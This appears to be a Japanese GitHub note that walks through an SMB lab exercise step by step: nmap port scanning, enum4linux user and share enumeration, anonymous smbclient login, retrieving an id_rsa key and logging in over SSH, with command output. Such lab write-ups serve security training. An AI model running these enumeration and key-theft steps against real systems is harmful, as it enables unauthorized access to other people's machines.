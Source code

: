# SMBusing

## enumerate SMB

* nmapでポートの空き状況を確認する（SMBの空き状況を確認）
  
```bash
# nmap 10.10.111.169

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-29 08:28 BST
Nmap scan report for ip-10-10-111-169.eu-west-1.compute.internal (10.10.111.169)
Host is up (0.00094s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:23:D6:CB:05:51 (Unknown)
```

* enum4linuxでユーザ情報やsharenameを確認する

```bash
enum4linux 10.10.111.169

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\cactus (Local User)
[+] Enumerating users using SID S-1-5-21-434125608-3964652802-3194254534 and logon username '', password ''
S-1-5-21-434125608-3964652802-3194254534-500 *unknown*\*unknown* (8)
S-1-5-21-434125608-3964652802-3194254534-501 POLOSMB\nobody (Local User)
```

```bash
enum4linux -S 10.10.111.169
========================================== 
|    Share Enumeration on 10.10.111.169    |
 ========================================== 
WARNING: The "syslog" option is deprecated

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      Network Logon Service
	profiles        Disk      Users profiles
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (polosmb server (Samba, Ubuntu))
```

* 脆弱性を確認する(AnonymousでSMBログイン（パスワードなし)できてしまう脆弱性

'https://www.cvedetails.com/cve/CVE-2017-7494/'


* sharenameを利用してSMB接続する

```bash
root@ip-10-10-140-19:/home/root# ls
root@ip-10-10-140-19:/home/root# smbclient //10.10.111.169/profiles -U anonymous -p 445
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\anonymous's password: 
Try "help" to get a list of possible commands.
smb: \> get "Working From Home Information.txt" 
getting file \Working From Home Information.txt of size 358 as Working From Home Information.txt (116.5 KiloBytes/sec) (average 116.5 KiloBytes/sec)
smb: \> exit
```

* .sshよりid_rsaをget

```
```bash
root@ip-10-10-46-160:~# ls
Desktop    id_rsa        Pictures  Rooms    thinclient_drives
Downloads  Instructions  Postman   Scripts  Tools
root@ip-10-10-46-160:~# chmod 600 id_rsa 
root@ip-10-10-46-160:~# ssh -i id_rsa cactus@10.10.29.85
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun May 29 13:15:08 UTC 2022

  System load:  0.04               Processes:           93
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 19%                IP address for eth0: 10.10.29.85
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Sun May 29 13:14:33 2022 from 10.10.46.160
```

* SSH接続成功

